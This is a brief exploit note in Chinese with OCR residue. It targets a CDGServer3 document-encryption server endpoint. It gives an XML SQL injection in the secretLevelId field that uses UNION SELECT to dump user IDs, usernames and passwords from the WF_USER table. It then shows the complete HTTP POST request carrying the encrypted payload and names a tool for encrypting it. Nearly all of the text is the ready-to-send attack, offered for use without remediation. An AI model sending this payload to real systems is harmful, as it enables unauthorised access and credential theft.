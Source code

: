 需要加密工具：https://github.com/wafinfo/DecryptTools

 

<?xml version="1.0" encoding="UTF-8" standalone="no"?>

<GetCDGAuthoriseTemplet>

<userId>SystemAdmin</userId>

<secretLevelId>1112233') union select USER_ID,USER_NAME,PWD,SURNAME,'','','','','','','','' 

from WF_USER;#</secretLevelId>

</GetCDGAuthoriseTemplet>

 

以上paylaod需要使用加密工具加密，加密后完整paylaod包：

POST /CDGServer3/CDGAuthoriseTempletService1 HTTP/1.1

Host: 

Cache-Control: max-age=0

Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"

Sec-Ch-Ua-Mobile: ?0

Sec-Ch-Ua-Platform: "Windows"

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like 

Gecko) Chrome/112.0.5615.138 Safari/537.36

Accept: 

text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*

/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Sec-Fetch-Site: none

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: document

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

Content-Type: application/xml

Content-Length: 510

 

CGKFAICMPFGICCPHKFGGGBOMICMOKOBGPCBLKPCAHAGPFJHFABCPPKIOHIAIBJLLHJCODJMA

GKBGIKDAFJHJMMKBDHABAJPBFNLBOIDFBHMMFKFHLPIAOPHEOAICJEMBCKFEIPGINHHBEGD

OMEOPDKJGPNIJEDNOMEKLJHCGOJCEIPFPEDGBEHJLMNEEFIKFPGCCKCFCCOMONKACOEENLF

IBAGNJBLHDNBBCNKNLDJINDOCEBFIKAEMNHAPLPHONFGFGIKIAODPKKLMDBNPGPHLNICFP

MAIMFCOAAFINGBKHCKEAOMKBBALOEGJNGOJBLOJIGKKMKPIDMLCGOFIPFLMODDPOOJNJO

GHNNMOJGPKBNDEBEIBACIDFMBIJCJDMGLFGCHAHGBIJONAGEOCIKHKHFCEPHONEMCMOJE

ALFDEKHHIGBCGPKAMKKFNOMJEEINOPOKLEGFLEBIIGAFCDAMAMBFDJPIKCGDFIFMGAFMGFF

CECFMFDGJFGFIGICP

 